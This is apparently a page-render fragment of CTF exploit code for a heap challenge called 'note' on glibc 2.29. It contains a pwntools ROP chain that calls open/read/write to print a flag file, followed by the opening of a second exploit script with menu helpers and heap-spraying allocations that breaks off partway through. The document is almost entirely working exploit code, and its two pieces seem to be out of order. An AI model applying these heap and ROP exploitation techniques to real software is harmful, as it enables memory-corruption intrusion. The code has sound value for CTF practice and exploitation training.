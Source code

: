 ```python
payload += p64(payload_addr - 0xA0 + 0x10) # rdx
payload += p64(payload_addr + 0x28)
payload += p64(ret)
payload += ''.ljust(0x8,'\x00')

rop_chain = ''
rop_chain += p64(pop_rdi_ret) + p64(str_flag_addr) # name = "./flag"
rop_chain += p64(pop_rsi_ret) + p64(0)
rop_chain += p64(pop_rdx_ret) + p64(0)
rop_chain += p64(pop_rax_ret) + p64(2) + p64(syscall_ret) # sys_open
rop_chain += p64(pop_rdi_ret) + p64(3) # fd = 3
rop_chain += p64(pop_rsi_ret) + p64(rw_addr) # buf
rop_chain += p64(pop_rdx_ret) + p64(0x100) # len
rop_chain += p64(libc_base + libc.symbols["read"])
rop_chain += p64(pop_rdi_ret) + p64(1) # fd = 1
rop_chain += p64(pop_rsi_ret) + p64(rw_addr) # buf
rop_chain += p64(pop_rdx_ret) + p64(0x100) # len
rop_chain += p64(libc_base + libc.symbols["write"])

payload += rop_chain
payload += './flag\x00'
add(len(payload) + 0x10,payload) # 74
#gdb.attach(proc.pidof(sh)[0])
delete(74)


sh.interactive()

### exploit
```python
#!/usr/bin/env python
# coding=utf-8
from pwn import *
context.terminal = ["tmux","splitw","-h"]
context.log_level = 'debug'

#sh = process("./note")
#libc = ELF("/glibc/2.29/64/lib/libc.so.6")
sh = process("./note-re")
libc = ELF("./libc-2.29.so")

def add(size,payload):
    sh.sendlineafter("Choice: ",'1')
    sh.sendlineafter("Size: ",str(size))
    sh.sendafter("Content: ",payload)

def delete(index):
    sh.sendlineafter("Choice: ",'2')
    sh.sendlineafter("Idx: ",str(index))

def show(index):
    sh.sendlineafter("Choice: ",'3')
    sh.sendlineafter("Idx: ",str(index))

for i in range(16):
    add(0x10,'fill')

for i in range(16):
    add(0x60,'fill')

for i in range(9):
    add(0x70,'fill')

```
